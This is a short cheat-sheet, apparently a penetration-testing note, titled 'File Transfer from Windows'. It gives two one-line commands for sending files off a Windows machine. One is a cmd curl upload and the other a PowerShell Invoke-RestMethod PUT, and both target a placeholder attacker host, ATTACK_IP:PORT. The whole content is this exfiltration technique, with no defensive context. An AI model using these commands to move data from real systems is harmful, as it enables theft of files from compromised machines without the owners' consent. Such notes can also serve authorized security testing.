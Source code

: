 # File Transfer from Windows

### 1) cmd

 - curl --upload-file test.txt http://ATTACK_IP:PORT/

### 2) powershell

 - Invoke-RestMethod -Uri http://ATTACK_IP:PORT/REMOTE_FILE -Method PUT -InFile TARGET_FILE
